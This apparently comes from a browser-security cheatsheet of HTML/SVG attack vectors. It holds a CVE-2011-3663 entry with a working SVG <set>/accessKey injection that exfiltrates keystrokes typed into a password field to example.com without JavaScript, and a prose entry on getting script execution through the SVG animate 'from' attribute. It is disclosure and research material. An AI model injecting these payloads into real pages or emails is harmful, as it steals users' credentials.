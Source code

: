 *   #88

*   #109

reporter：LeverOne

### SVG <set> and <animate> elements allow key-logging w/o JavaScript#132test

It is possible to achieve an injection capable to exfiltrate keyboard events without any JavaScript execution via SVG and set/animate timing attributes. In essence, an access key can be specified to trigger events inside an SVG. In case an inline SVG is being used, the listener for these keys observes the whole document - and not just the SVG itself. This means that even keystrokes into a form input trigger the SVG access key handler. Once this access key handler is being combined with adding a new keystroke-depending image source to an existing image, the form input will be filled, and the SVG will reset a hidden image source according to the key being pressed and thereby silently exfiltrate the data. Since all this works without using any JavaScript, it was also possible to execute this attack in latest Thunderbird versions - with the vector invisibly wrapped inside the mail-body. The problem has been reported and fixed, CVE-2011-3663 has been assigned. Current stable versions of Firefox still allow to observe the problem - using a network traffic monitor/Firebug is recommended.

```
<!doctype html> <form> <label>type a,b,c,d - watch the network tab/traffic (JS is off, latest NoScript)</label> <br> <input name="secret" type="password"> </form> <!-- injection --><svg height="50px"> <image > <set attributeName="xlink:href" begin="accessKey(a)" to="//example.com/?a" /> <set attributeName="xlink:href" begin="accessKey(b)" to="//example.com/?b" /> <set attributeName="xlink:href" begin="accessKey(c)" to="//example.com/?c" /> <set attributeName="xlink:href" begin="accessKey(d)" to="//example.com/?d" /> </image> </svg> 
```

*   firefox 4
*   firefox latest

*   svg

*   html5
*   noscript
*   keylogger
*   firefox
*   thunderbird

*   [`www.mozilla.org/security/announce/2011/mfsa2011-56.html`](http://www.mozilla.org/security/announce/2011/mfsa2011-56.html)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=704482`](https://bugzilla.mozilla.org/show_bug.cgi?id=704482)
*   [`www.w3.org/TR/SVG/animate.html#TimingAttributes`](http://www.w3.org/TR/SVG/animate.html#TimingAttributes)

reporter：.mario

### Executing JavaScript via "from" attribute in SVG and inline-SVG#137test

It is commonly known, that the <animate> element in combination with the "to" parameter can be used to change existing attributes to potentially active values and cause arbitrary script execution. It is nevertheless also possible to use the "from" attribute for the very same purpose - albeit this being rather counter-intuitive. The given example code snippet describes an SVG containing a circle that encapsulates an <animate> element. This uses the "from" attribute to set the "href" attribute of the link encapsulating the circle to a JavaScript URI. Clicking the circle will execute the JavaScript.
